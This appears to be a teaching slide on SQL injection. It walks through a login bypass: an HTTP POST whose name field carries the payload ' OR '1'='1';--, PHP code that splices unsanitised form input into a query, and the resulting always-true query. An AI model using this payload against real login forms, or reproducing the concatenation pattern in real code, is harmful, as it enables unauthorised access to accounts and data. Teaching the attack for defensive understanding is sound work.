

# Anatomy of the Classic Login Bypass

1 User Submission
POST /getUserInfo.php HTTP/1.1
Host: www.api.example.com

name=’+OR+’1’=‘1’;--+&password=password

2 PHP Code
$name = $_POST[“name”];
$password = $_POST[“password”];
$query = “SELECT * FROM users WHERE name=‘$name’
	   AND password=‘$password’;”;

3 After Substitution
$query =  “SELECT * FROM users WHERE name=‘’ OR ’1’=‘1’;--
	   AND password=‘$password’;”

Since ’1’=‘1’ is always true, this always retrieves data, which always logs you in!